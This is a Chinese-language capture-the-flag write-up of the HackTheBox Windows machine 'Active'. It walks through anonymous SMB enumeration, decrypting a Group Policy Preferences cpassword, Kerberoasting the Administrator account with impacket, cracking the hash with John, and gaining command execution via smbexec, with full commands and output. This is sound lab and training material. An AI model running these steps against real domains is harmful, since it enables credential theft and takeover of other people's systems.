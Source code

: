 ```yaml
---
title: "HTB-Active"
date: 2025-01-18
categories: 
  - "HTB-Machine"
tags: 
  - "hackthebox"
  - "windows"
---
```


## Box Info

| OS | Windows |
| --- | --- |
| Difficulty | Easy |

## Nmap

```
[root@kali] /home/kali/Active  
❯ nmap active.htb -sV  -Pn -T4         
                                                                                            
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos 
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
49152/tcp open  msrpc         Microsoft Windows RPC
49153/tcp open  msrpc         Microsoft Windows RPC
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
49165/tcp open  msrpc         Microsoft Windows RPC
49167/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows
```

## SMB File Leak

匿名登陆**SMB**，发现可以读取的**Replication**

```
[root@kali] /home/kali/Active  
❯ smbclient -L //active.htb/                                                                                                       

Password for [WORKGROUP\root]:
Anonymous login successful

        Sharename       Type      Comment
        --------- ---- -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        Replication     Disk      
        SYSVOL          Disk      Logon server share 
        Users           Disk      
```

![](./images/image-27.png)

```
[root@kali] /home/kali/Active  
❯ cat Groups.xml 
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
</Groups>
```

## GPP-decrypt

经过搜索查找到了**AES**密钥是公开的：[\[MS-GPPREF\]: Password Encryption | Microsoft Learn](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be)

使用下面的脚本进行解密得到密码

\[github author="t0thkr1s" project="gpp-decrypt"\]\[/github\]

```
[root@kali] /home/kali/Active/gpp-decrypt (master) 
❯ python gpp-decrypt.py -c edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
/home/kali/Active/gpp-decrypt/gpp-decrypt.py:10: SyntaxWarning: invalid escape sequence '\ '
  banner = '''

                               __                                __ 
  ___ _   ___    ___  ____ ___/ / ___  ____  ____  __ __   ___  / /_
 / _ `/  / _ \  / _ \/___// _  / / -_)/ __/ / __/ / // /  / _ \/ __/
 \_, /  / .__/ / .__/     \_,_/  \__/ \__/ /_/    \_, /  / .__/\__/ 
/___/  /_/    /_/                                /___/  /_/         

[ * ] Password: GPPstillStandingStrong2k18
```

查看这个用户的**SMB**权限，发现可以读取**Users**

```
[root@kali] /home/kali/Active  
❯ smbmap -u SVC_TGS -p GPPstillStandingStrong2k18 -H 10.10.XX.XX

        Disk              Permissions     Comment
        ---- ----------- -------
        ADMIN$            NO ACCESS       Remote Admin
        C$                NO ACCESS       Default share
        IPC$              NO ACCESS       Remote IPC
        NETLOGON          READ ONLY       Logon server share 
        Replication       READ ONLY
        SYSVOL            READ ONLY       Logon server share 
        Users             READ ONLY
```

拿到**User.txt**

```
[root@kali] /home/kali/Active  
❯ smbclient  //active.htb/Users -U SVC_TGS 
Password for [WORKGROUP\SVC_TGS]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                  DR        0  Sat Jul 21 22:39:20 2018
  ..                                 DR        0  Sat Jul 21 22:39:20 2018
  Administrator                       D        0  Mon Jul 16 18:14:21 2018
  All Users                       DHSrn        0  Tue Jul 14 13:06:44 2009
  Default                           DHR        0  Tue Jul 14 14:38:21 2009
  Default User                    DHSrn        0  Tue Jul 14 13:06:44 2009
  desktop.ini                       AHS      174  Tue Jul 14 12:57:55 2009
  Public                             DR        0  Tue Jul 14 12:57:55 2009
  SVC_TGS                             D        0  Sat Jul 21 23:16:32 2018

                5217023 blocks of size 4096. 284022 blocks available
smb: \> cd SVC_TGS
smb: \SVC_TGS\> cd desktop
smb: \SVC_TGS\desktop\> get user.txt
getting file \SVC_TGS\desktop\user.txt of size 34 as user.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
smb: \SVC_TGS\desktop\> 
```

## Privilege Escalation

在**Nmap**中发现开启了**Kerberos**服务

`GetUserSPNs` 脚本能找出和普通用户账户关联的 **SPN**，并以 **JtR (John the Ripper)** 和 **Hashcat** 兼容的格式输出。

简单的说，当前用户通过 **GetUserSPNs** 查询服务和用户之间的关联，尤其是 **admin** 用户所管理的服务。如果**admin**用户的配置存在漏洞（例如，禁用了预身份验证），那么工具就能够抓取到加密的密码哈希，进一步可以进行密码破解。

```
[root@kali] /home/kali/Active  
❯ impacket-GetUserSPNs -request active.htb/SVC_TGS:GPPstillStandingStrong2k18
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

...........

[-] CCache file is not found. Skipping...
$krb5tgs$23$*Administrator$ACTIVE.HTB$active.htb/Administrator*$710f30f9b647e40f3d5571b65223adf7$f40b9733880a7ef27fd7e80a1cb450dca57036d376c4cdccec590dd7a96b7445360c99f61872a50f1387be8be185759cb6406a4f8c2a99f6c68e695c7458242e64aa9295f9ff0481da1229d7f96d2745cdcd5a5bb0e3bc69b5de97xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
```

使用**John the Ripper**进行破解

```
[root@kali] /home/kali/Active  
❯ john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt                                                                        ⏎
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
TicXXXXXXXXXXXXXXXX (?)     
```

然后使用**impacket-smbexec**进行命令执行

![](./images/image-28.png)

在这个工具下不能使用**cd**命令，可以直接读取**root.txt**

![](./images/image-29.png)

## Summary

`User`：**SMB**文件泄露，然后进行GPP密码破解，由于**5985**端口（**winrm**）并没有打开，在SMB里拿到**User.txt**.

`Root`：通过**Kerberoast**攻击，获取到**Administrator**的凭证，破解后通过**smbexec**进行命令执行

**Kerberoasting 攻击步骤**：

- **枚举 SPN**：首先列举目标域中的所有用户和服务账户，找到与服务关联的 **SPN**（通常可以通过 **`GetUserSPNs`** 工具来枚举）。

- **请求服务票证**：攻击者向 **KDC** 发送请求，要求获取与服务账户相关的 **服务票证（TGS）**。

- **提取服务票证**：**KDC** 会返回加密的 **服务票证**，这个票证是用服务账户的 **密码哈希** 加密的。

- **离线破解密码**：攻击者将提取的票证（通常是加密的 **RC4** 哈希）带回并通过离线破解工具（如 `**John the Ripper**` 或 `**Hashcat**`）进行暴力破解，尝试恢复出服务账户的明文密码。

值得注意的是**服务票据**会使用**服务账户的哈希**进行加密，因此任何通过身份认证的用户都能从 **TGS** 处请求 **ST** 服务票据。由于服务票证是用链接到请求 **SPN** 的帐户的哈希加密的，所以尝试破解密文。
